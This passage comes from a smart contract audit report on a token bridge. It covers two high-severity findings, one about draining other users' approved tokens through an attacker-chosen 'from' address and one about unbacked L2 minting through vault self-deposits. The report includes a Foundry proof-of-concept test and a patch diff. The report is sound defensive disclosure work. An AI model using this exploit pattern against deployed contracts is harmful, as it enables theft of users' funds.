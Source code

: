 As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```

Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Calling `depositTokensToL2` from the Vault contract to the Vault contract allows infinite minting of unbacked tokens

`depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves. 

